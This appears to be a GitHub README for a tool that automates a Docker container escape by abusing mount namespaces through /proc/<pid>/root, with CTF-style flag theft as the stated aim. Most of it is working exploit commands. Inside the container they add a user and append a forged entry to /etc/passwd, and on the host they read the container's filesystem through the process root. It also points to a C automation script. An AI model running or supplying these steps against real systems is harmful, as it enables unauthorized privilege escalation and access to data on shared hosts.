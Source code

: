 # Abusing mount namespaces through /proc/*PID*/root

In this repository I come to automate the namespace technique to escape from a Docker and elevate privileges/remove the flag/dump data, etcetera. You can read in more detail this technique [here](https://labs.withsecure.com/publications/abusing-the-access-to-mount-namespaces-through-procpidroot). In order to perform this technique successfully you need to fulfill the following requirements.

- Shell as non-privileged user on host
- Shell as root on the Docker.

Exploit:

**The following steps you must run them in the Docker as root.

``` shell
useradd luk4s # This user must exist on the host machine.
usermod -aG luk4s luk4s
echo "luk4s:x:1000:1000:luk4s:/home/luk4s:/bin/bash" >> /etc/passwd # The content can be taken out of the machine host -> grep luk4s /etc/paswd
su luk4s
/bin/sh # We run this command when we gain shell as luk4s in the container
```

With this we are ready to work on the container.

**The following commands must be executed from the hosts machine.

``` shell
ps aux | grep sh # You will notice a process that runs your user with a sh, this was the process you created in the container
grep -a "flag" /proc/<pid>/root/sda
```

PoC:

![](https://i.imgur.com/7FyR5qG.png)

## Automation

Program a C script which automates the steps to follow in the container, if you want to use the binary you compile it using `gcc` and upload it to Docker.

``` shell
gcc exploit.c -o exploit
```

Thanks for reading :)
